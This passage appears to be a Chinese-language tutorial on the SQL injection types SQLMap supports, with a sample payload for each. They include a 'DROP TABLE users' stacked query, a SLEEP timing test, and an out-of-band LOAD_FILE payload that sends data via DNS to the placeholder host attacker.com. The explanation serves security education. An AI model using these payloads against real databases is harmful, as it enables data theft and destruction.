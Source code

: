 ## 基于 UNION 查询的注入

**基于 UNION 查询的注入示例:**
```sql
UNION ALL SELECT 1,@@version,3
```

通过使用 UNION，通常可以扩展原始（易受攻击的）查询，加入注入语句的结果。这样，如果原始查询结果作为响应的一部分被渲染，攻击者可以在页面响应中获得注入语句的附加结果。这种类型的 SQL 注入被认为是最快的，因为在理想情况下，攻击者可以通过单个请求获取整个目标数据库表的内容。

## 堆叠查询注入

**堆叠查询注入示例:**
```sql
; DROP TABLE users
```

堆叠 SQL 查询，也称为"piggy-backing"，是在易受攻击的查询之后注入额外 SQL 语句的形式。如果需要运行非查询语句（如 INSERT、UPDATE 或 DELETE），易受攻击的平台必须支持堆叠（例如，Microsoft SQL Server 和 PostgreSQL 默认支持）。SQLMap 可以使用这类漏洞来运行非查询语句，执行高级功能（例如，操作系统命令执行）和类似于基于时间的盲注 SQLi 类型的数据检索。

## 基于时间的盲注 SQL 注入

**基于时间的盲注 SQL 注入示例:**
```sql
AND 1=IF(2>1,SLEEP(5),0)
```

基于时间的盲注 SQL 注入原理类似于基于布尔的盲注 SQL 注入，但这里使用响应时间作为区分 TRUE 或 FALSE 的依据。

- **TRUE 响应**：通常表现为响应时间与常规服务器响应相比有明显差异
- **FALSE 响应**：响应时间应与常规响应时间无法区分

基于时间的盲注 SQL 注入比基于布尔的盲注 SQLi 慢得多，因为导致 TRUE 的查询会延迟服务器响应。这种 SQLi 类型在基于布尔的盲注 SQL 注入不适用的情况下使用。例如，当易受攻击的 SQL 语句是非查询（如 INSERT、UPDATE 或 DELETE），作为辅助功能的一部分执行，而不会影响页面渲染过程时，就会出于必要使用基于时间的 SQLi，因为这种情况下基于布尔的盲注 SQL 注入无法正常工作。

## 内联查询注入

**内联查询注入示例:**
```sql
SELECT (SELECT @@version) from
```

这种注入类型在原始查询中嵌入了一个查询。这种 SQL 注入不常见，不过，SQLMap 也支持这种 SQLi。

## 带外 SQL 注入

**带外 SQL 注入示例:**
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

这被认为是最高级的 SQLi 类型之一，用于易受攻击的 Web 应用程序不支持其他类型或其他类型太慢（例如，基于时间的盲注 SQLi）的情况。SQLMap 通过"DNS 渗透"支持带外 SQLi，其中请求的查询通过 DNS 流量检索。
